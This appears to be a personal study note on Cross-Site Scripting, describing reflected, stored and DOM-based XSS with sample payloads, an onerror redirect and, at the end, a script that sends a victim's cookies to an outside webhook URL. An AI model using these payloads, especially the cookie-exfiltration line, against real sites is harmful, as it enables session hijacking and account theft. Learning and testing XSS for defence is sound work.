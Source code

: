 ### XXS

XSS or Cross-Site Scripting lets us execute javascript on a victim's computer in order to gather information and even take control of the browser.  


Reflected - This is when you put in your script and you get a response back that includes the script.  
&ensp;This type is very limited since you can generally only target yourself but this is what is used to see if XSS is even possible on the site  

Stored - This is where the script itself is stored on the database and affects any user that comes to the site and happens to load that script through the website.  Checking this is easier with a Firefox add-on called Multi Account Containers  
&ensp;For this, we might use the following  
&ensp;&ensp;`<script>prompt(1)</script>`  
&ensp;&ensp;This, if the site is vulnerable, should prompt you with a 1 and a text input box.  
&ensp;We can also do something like this  
&ensp;&ensp;`<script>alert(document.cookie)</script>` and this should spit out any cookies the user has  
&ensp;&ensp;&ensp;For this, a malicious actor might not do an `alert` but instead have it kick out somewhere else that they have access to.  
&ensp;&ensp;This can be stopped by setting your cookies to `http only` which stops scripts from being able to read your cookies.  

DOM-based - Everything happens locally in the browser.  An example of this would be a page that adds things to a list.  There is no network communication (can be checked in dev tools network tab) so it's all based within the browser itself.  There's no server communication.  
&ensp;For this, we might use the following  
&ensp;&ensp;`<img src=x onerror="prompt(1)">`  
&ensp;&ensp;This will try to load the image from `img src` and won't be able to find `x` so it will error out and `onerror` will run our script.  
&ensp;OR  
&ensp;&ensp;`<img src=x onerror="window.location.href = 'http://www.mysite.com'"/>`  
&ensp;&ensp;This will actually send the browser to another webiste when the image fails to load.  


Checking for XSS capability  
&ensp;Open your DevTools in the browser (ctrl + shft + C in firefox) and go to the console and you can type in there.  
&ensp;&ensp;`print()` this should pop up the print page  
&ensp;&ensp;`prompt("hello")` this should pop a window saying hello and asking for input  
&ensp;&ensp;&ensp;`alert(1)` - this is being less usable as browsers update but was the OG lol  

Common tactic for extracting cookies  
&ensp;`<script>var i=new Image;i.src="https://webhook.site/30a82a00-7b3e-4773-a668-31cfd1191564/?"+document.cookie;</script>`  
&ensp;&ensp;This will send the contents of the cookie as a parameter of the website.  Make sure you add the /? at the end of the address to make the cookie a parameter in the URL and then add the cookie `+document.cookie;` and close your script.  
